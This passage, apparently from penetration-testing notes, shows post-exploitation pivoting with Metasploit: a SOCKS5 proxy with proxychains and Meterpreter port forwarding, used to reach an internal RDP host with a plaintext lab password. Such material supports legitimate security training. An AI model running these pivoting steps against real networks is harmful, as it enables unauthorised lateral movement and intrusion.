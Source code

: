 With a route in place, the `socks_proxy` module sets up a **SOCKS5 proxy server** on the attacker's machine. This enables tunneling through compromised host using `proxychains`, which lets any external app (like RDP clients) act as if it’s inside the internal network.

> _SOCKS proxy + proxychains = full tool access to pivoted networks._

```bash
msf6 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 0.
[*] Starting the SOCKS proxy server
```

{% code overflow="wrap" %}
```bash
$ tail -n1 /etc/proxychains.conf
socks5  127.0.0.1 1080
$ sudo proxychains xfreerdp /v:172.16.196.200 /u:luiza /p:'BoccieDearAeroMeow1!' /smart-sizing
```
{% endcode %}

### Portfwd

Instead of a SOCKS proxy, we can forwards traffic from the attacker's machine directly to the internal target. This maps an internal service to a local port, allowing direct tool access.

```bash
meterpreter > portfwd add -l 3389 -p 3389 -r 172.16.196.200
[*] Forward TCP relay created: (local) :3389 -> (remote) 172.16.196.200:3389
```

```bash
$ sudo xfreerdp /v:127.0.0.1 /u:luiza /p:'BoccieDearAeroMeow1!' /smart-sizing
```
